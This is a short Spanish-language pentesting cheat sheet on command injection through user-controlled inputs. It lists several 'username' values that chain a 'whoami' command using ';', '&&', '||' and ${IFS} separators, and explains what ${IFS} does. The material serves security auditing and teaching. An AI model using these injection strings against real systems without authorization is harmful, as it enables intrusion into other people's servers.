 # Reflecting Techniques - PoCs and Polygloths CheatSheet

De cara a una auditoria, muchas veces nos encontraremos con un INPUT en el cual nosotros podemos controlar los valores, es depende de la seguridad y prevención de como este desarrollada la página que podremos llegar a acontecer fallos, explotaciones u ocacionar respuestas no esperadas. Por lo que puede ser interesante tener en cuenta la siguiente [CheatSheet](https://book.hacktricks.xyz/pentesting-web/pocs-and-polygloths-cheatsheet) para probar en caso de que tengamos un input vulnerable.

Por ejemplo, puede ser intereante de cara a un input como **'username'**, pensar que este es leido e interpretado en la consola, e intentar muchas maneras diferentes de intentar exlotar este.

```bash
username='dobliuw; whoami'
username='dobliuw; whoami; echo'
username='dobliuw && whoami'
username='dobliuw || whoami'
username='dobliuw;${IFS}whoami'
username='dobliuw;${IFS}whoami;${IFS}echo}'
```

**${IFS}** es una variable especial que determina cómo se dividen las palabras en una cadena cuando se realiza una expansión de campo o una separación de palabras en una shell de Unix. Con esta variable se puede lograr que la entrada del usuario se interprete como una expansión de campo y puede tener un impacto en la forma en que se procesa la cadena.



